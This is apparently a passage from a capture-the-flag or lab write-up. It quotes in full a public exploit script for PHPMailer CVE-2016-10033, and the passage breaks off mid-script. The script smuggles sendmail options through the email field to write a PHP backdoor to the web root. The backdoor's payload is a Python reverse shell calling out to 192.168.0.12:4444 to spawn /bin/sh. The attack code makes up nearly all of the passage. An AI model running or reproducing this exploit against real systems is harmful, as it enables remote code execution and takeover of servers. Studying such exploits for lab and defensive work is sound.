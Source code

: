 <figure><img src="../.gitbook/assets/image (14).png" alt=""><figcaption><p>Validation</p></figcaption></figure>

But we can't seem to bypass this validation. Let's read the public exploit .

```python
from requests_toolbelt import MultipartEncoder
import requests
import os
import base64
from lxml import html as lh

os.system('clear')
print("\n")
print(" █████╗ ███╗   ██╗ █████╗ ██████╗  ██████╗ ██████╗ ██████╗ ███████╗██████╗ ")
print("██╔══██╗████╗  ██║██╔══██╗██╔══██╗██╔════╝██╔═══██╗██╔══██╗██╔════╝██╔══██╗")
print("███████║██╔██╗ ██║███████║██████╔╝██║     ██║   ██║██║  ██║█████╗  ██████╔╝")
print("██╔══██║██║╚██╗██║██╔══██║██╔══██╗██║     ██║   ██║██║  ██║██╔══╝  ██╔══██╗")
print("██║  ██║██║ ╚████║██║  ██║██║  ██║╚██████╗╚██████╔╝██████╔╝███████╗██║  ██║")
print("╚═╝  ╚═╝╚═╝  ╚═══╝╚═╝  ╚═╝╚═╝  ╚═╝ ╚═════╝ ╚═════╝ ╚═════╝ ╚══════╝╚═╝  ╚═╝")
print("      PHPMailer Exploit CVE 2016-10033 - anarcoder at protonmail.com")
print(" Version 1.0 - github.com/anarcoder - greetings opsxcq & David Golunski\n")

target = 'http://localhost:8080'
backdoor = '/backdoor.php'

payload = '<?php system(\'python -c """import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\\\'192.168.0.12\\\',4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call([\\\"/bin/sh\\\",\\\"-i\\\"])"""\'); ?>'
fields={'action': 'submit',
        'name': payload,
        'email': '"anarcoder\\\" -OQueueDirectory=/tmp -X/www/backdoor.php server\" @protonmail.com',
        'message': 'Pwned'}

m = MultipartEncoder(fields=fields,
                     boundary='----WebKitFormBoundaryzXJpHSq4mNy35tHe')

headers={'User-Agent': 'curl/7.47.0',
         'Content-Type': m.content_type}

proxies = {'http': 'localhost:8081', 'https':'localhost:8081'}


print('[+] SeNdiNG eVIl SHeLL To TaRGeT....')
r = requests.post(target, data=m.to_string(),
                  headers=headers)
print('[+] SPaWNiNG eVIL sHeLL..... bOOOOM :D')
r = requests.get(target+backdoor, headers=headers)
if r.status_code == 200:
```